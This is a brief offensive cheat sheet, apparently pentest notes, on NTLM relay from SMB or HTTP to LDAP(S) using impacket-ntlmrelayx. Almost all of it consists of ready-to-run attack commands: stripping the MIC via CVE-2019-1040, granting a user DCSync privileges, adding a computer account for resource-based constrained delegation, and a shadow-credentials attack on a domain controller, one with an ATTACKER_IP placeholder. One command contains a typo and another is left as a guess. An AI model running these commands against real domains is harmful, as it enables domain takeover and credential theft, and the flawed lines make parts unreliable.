 # SMB to LDAP(S) Relay

## Tools: impacket-ntlmrelayx

# NetNTLMv1/NetNTLMv2

#### 1) Remove mic (CVE-2019-1040 for NetNTLMv2)

#### 2) Relay to LDAP

 - impacket-ntlmrelayx --remove-mic --escalate-user USER -t ldap://DC_FQDN -smb2support (Grant user DCSync privileges)

 - impacket-ntlmrelayx -t ldaps://DC --remove-mic --add-computer COMPUTER_NAME COMPUTER_PASSWORD --delegate-access -smb2support (Create a computer account, then do a Resource Based Constrained Delegation attack)

 - impacket-ntlmrelayx -t ldapL//DC --shadow-credentials --shadow-target 'DC' (Shadow Credentials attack)

 - impacket-ntlmrelayx -wh ATTACKER_IP -t ldap://TARGET -l /tmp -6 -debug (Enumerate Users?)

## TIP: Same steps work for HTTP(S) to LDAP Relaying
